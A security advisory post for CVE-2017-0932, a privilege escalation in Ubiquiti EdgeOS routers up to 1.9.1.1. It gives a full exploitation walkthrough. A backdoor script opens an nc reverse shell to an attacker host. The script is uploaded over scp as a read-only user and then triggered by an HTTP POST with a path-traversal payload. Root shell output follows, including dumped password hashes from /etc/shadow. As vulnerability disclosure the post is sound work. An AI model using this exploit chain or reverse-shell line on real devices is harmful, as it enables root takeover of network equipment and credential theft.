 ```yaml
---
layout: post
title:  "UBNT EdgeOS <= v1.9.1.1 Local Privilege Escalation"
date:   2018-03-05
categories: advisories
tags: embedded-devices hacking-embedded IoT-hacking ubnt cve
lang: en
ref: cve-2017-0932
---
```



UBNT EdgeOS version 1.9.1.1 and prior, consequence of the lack of validation on the input of the Feature functionality, an attacker with access to an operator (read-only) account and ssh connection to the devices, can escalate privileges to admin (root) access in the system.

- Vendor: Ubiquiti Networks
- Device: Edger Router X
- Affected Version: 1.9.1.1 and prior
- CVE-ID: CVE-2017-0932

### Details

The EdgeOS (firmware v1.9.1.1) is susceptible to a local privilege escalation due a Path Traversal vulnerability in the Feature API. This vulnerability allows an attacker with non-privileged access (read-only) to execute commands on the device with the root rights. The attack consists in sending a maliciously crafted file (using scp with a non-privileged account) to the device and then calling the vulnerable API exploiting the Path Traversal. The exploitation will result on the crafted file being executed with root permission, giving the attacker full access to the device.

### Exploitation

First of all, we have to create the following file+directory:

```
$ cat Backdoor/wizard-run
#!/bin/bash
/usr/bin/nc 192.168.2.2:1337 -e /bin/bash &
```


Using a non-privileged 'operator' user, it was possible to upload the file to the device using the scp command:

```
$ scp -r Backdoor operator@192.168.2.1:~
Welcome to EdgeOS

By logging in, accessing, or using the Ubiquiti product, you
acknowledge that you have read and understood the Ubiquiti
License Agreement (available in the Web UI at, by default,
http://192.168.1.1) and agree to be bound by its terms.

operator@192.168.2.1's password: 
wizard-run       
```

After that, using a valid operator session and a path traversal vulnerability, it was possible to call the uploaded file with root privilege:


```
POST /api/edge/feature.json HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Referer: https://192.168.2.1/
Content-Type: application/json
X-CSRF-TOKEN: 4310724fdcab5474ab225a105bd6f86d43247dbaf5b7f4aa2ec329a641ec55ec
X-Requested-With: XMLHttpRequest
Content-Length: 90
Cookie: ip_address_top_user_option=total_bytes; PHPSESSID=i6um09hej0ku2k5ctcp6ib56f1nrqhi7; X-CSRF-TOKEN=4310724fdcab5474ab225a105bd6f86d43247dbaf5b7f4aa2ec329a641ec55ec
Connection: close

{"data":{"scenario":"../../../../../home/operator/Backdoor","action":"load"}}
```


And a remote shell will be created:

```
$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from 192.168.2.1 44440 received!
id
uid=0(root) gid=102(vyattacfg)
uname -a
Linux ubnt 3.10.14-UBNT #1 SMP Sat Apr 22 06:38:07 PDT 2017 mips GNU/Linux
cat /etc/shadow
root:!:17283:0:99999:7:::
daemon:*:17283:0:99999:7:::
bin:*:17283:0:99999:7:::
games:*:17283:0:99999:7:::
.. snip snip ..
avahi:*:17283:0:99999:7:::
sshd:*:17283:0:99999:7:::
tss:*:17283:0:99999:7:::
ubnt:$1$zKNoUbAo$gomzUbYvgyUMcD436Wo66.:16436:0:99999:7:::
operator:$6$7SVNi.WB68V0QR5t$efMoCyT2H.mEU6M8s2NDSsW1fv7JnT2eAfK2VxuzsIdcYrEvWCILX8G0CYN/4enwrnT1yYjekQa95TxxHxhVj.:16436:0:99999:7:::
```

### Recommendation

Upgrade the firmware to the last available version.

